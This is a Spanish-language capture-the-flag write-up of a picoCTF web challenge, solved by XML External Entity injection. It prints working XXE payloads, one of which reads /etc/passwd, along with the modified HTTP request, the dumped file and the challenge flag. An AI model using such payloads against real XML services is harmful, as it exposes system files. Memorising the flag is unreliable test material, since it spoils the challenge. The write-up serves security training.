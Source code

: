 ### Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
#### Una vez iniciada la instancia del desafío:
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
[Web Portal](http://saturn.picoctf.net:52660/)
### Solución
Una vez iniciada la instancia del reto, hacemos clic en el enlace para acceder al sitio web, donde vemos lo siguiente:

![[Pasted image 20250401214712.png]]

Se revisa el código fuente, pero este no arroja algún indicio de contener la bandera, por lo que se procede a usar la herramienta *Burp Suite*, para poder observar las solicitudes HTTP y ver sí por ahí podemos obtener algo que nos acerque a la bandera, por lo que se inicia BURP en el navegador y se procede a dar clic en los botones de *Details*, los cuales se van almacenando en la siguiente lista:

![[Pasted image 20250401214804.png]]

Se procede a enviar al **Repeater**, la tercera solicitud, donde nos encontramos con lo siguiente:

```xml
POST /data HTTP/1.1
Host: saturn.picoctf.net:52660
Content-Length: 133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:52660
Referer: http://saturn.picoctf.net:52660/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
	<data>
		<ID>
			3
		</ID>
	</data>
```

Se hacen pruebas y se determina que solo se pude enviar números entre 1 y 3, ya que mayores o menores a ese rango nos arroja una solicitud inválida, por lo que se pide a ChatGPT que muestre algunos ejemplos de payloads, siendo este primero, uno para una prueba de referencia a una entidad externa:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe "XXE Works!">
]>
<root>
  <data>&xxe;</data>
</root>

```

El siguiente es para la lectura para archivos sensibles:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>

```

Es este justamente el que se termina implementando en la solicitud HTTP que se está manipulando, quedando en lo siguiente:

```xml
POST /data HTTP/1.1
Host: saturn.picoctf.net:52660
Content-Length: 133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:52660
Referer: http://saturn.picoctf.net:52660/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
	<data>
		<ID>
			&xxe;
		</ID>
	</data>
```

Por lo que se vuelve a reenviar una vez que se termino de modificar, arrojando la siguiente respuesta:

```xml
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Wed, 02 Apr 2025 03:46:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
```

Es en el último renglón donde podemos apreciar la bandera que soluciona el reto:

```
picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
```
### Notas Adicionales

### Referencias
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md